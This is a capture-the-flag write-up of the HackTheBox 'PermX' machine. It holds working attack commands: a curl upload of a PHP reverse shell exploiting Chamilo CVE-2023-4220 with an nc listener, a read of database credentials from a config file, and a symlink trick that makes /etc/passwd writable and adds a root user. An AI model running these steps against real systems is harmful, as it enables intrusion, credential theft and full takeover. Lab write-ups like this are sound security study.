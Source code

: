 +++
title = 'PermX'
date = 2024-07-13T10:07:03+03:00
draft = false
tags = ['htb', 'writeup']
summary = '[PermX](https://app.hackthebox.com/machines/613) is an easy Linux CTF box, that is a part of HackTheBox season 5 machines. Basic CVE exploitation and a little bit of Linux & Bash knowledge. Machine is created by [mtzsec](https://app.hackthebox.com/users/1573153) `+respict`.'
description = '"PermX" is an easy CTF machine. Released on 6th of July, 2024 (HackTheBox)'
thumbnail = 'img/px-logo.png'
+++


Initial Access
==============

Enumeration
-----------

### Nmap Scan

At first I performed an Nmap scan `sudo nmap -v -sC -sV -oN scans/nmap/init $IP`. I found that ports `22` & `80` are open. The port `80` redirects us to a domain name `permx.htb` that we must add in `/etc/hosts` file.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Virtual hosts enumeration

I right away tried to perform virtual hosts bruteforce. For that I used `ffuf`:

```bash
ffuf -u http://$IP -c -w subdomains-top1million-20000.txt -H 'Host: FUZZ.permx.htb' -fw 18
```

It ended up finding two subdomains. While I did look at the root domain & the `www` domain, the main initial access part happens in the `lms`:

![](img/px-ffuf.png)

The domain contains an e-learning platform `Chamilo`. At first I tried various password guessing attempts, but that did not work:

![](img/px-chamilo.png)

### Version Detection

I found out that this software has a long list of CVEs. For exploitation I first wanted to find the version. I tried various files like `README.md` & `LICENSE` but that only revealed that the version was `1.11.x`. Then I noticed that this platform has a documentation page and that revealed the version as `1.11.24`:

![](img/px-chamilo-version.png)

Exploitation
------------

The version `1.11.24` is vulnerable to an unauthenticated remote code execution (`CVE-2023-4220`). I found a nice [blog post](https://starlabs.sg/advisories/23/23-4220/) that shows the exploitation. For exploitation I used the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) to gain RCE:

```bash
sudo nc -lnvp 443
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

![](img/px-rce.png)

Privilege Escalation
====================

User Access
-----------

The first thing I did was I found the database credentials:

```bash
cat /var/www/chamilo/app/config/configuration.php | grep 'db_'
```

While I did log into the database & exfiltrate the password hashes, I was unable to crack them. Instead it turns out that the only user `mtz` has reused the password and the SSH password is the same as the database password:

![](img/px-user.png)

Root Access
-----------

The root access for this box was by far the most fun bit. It turns out that the user can execute a bash script with `sudo` privileges (`sudo -l`):

![](img/px-sudo.png)

The script contains the following:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The script takes three arguments:
1. `$user` - the user to set the ACL for;
2. `$perm` - the permissions to set;
3. `$target` - the file path to which the ACL will be set on;

We could set write permissions to `/etc/passwd` & add a new user, but the path is validated. The script checks if the path starts with `/home/mtz`. We could use `/home/mtz/../../etc/passwd`, but the script also checks if the path contains two dots. The solution is to use `soft links`. To exploit the vulnerability:


```bash
#!/bin/bash

# Create the soft link in home directory (passes both checks)
ln -sf /etc/passwd /home/mtz/passwd

# Run the script to allow read & write to the /etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/passwd

# Add a new user with the id of 0 (the password is: 123)
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd

# Remove the link
rm /home/mtz/passwd

# Log in ass the new user
su new
```

Executing the script we gain root privileges. Note that if we `getfacl` on `/etc/passwd` the user `mtz` has read & write access:

![](img/px-root.png)
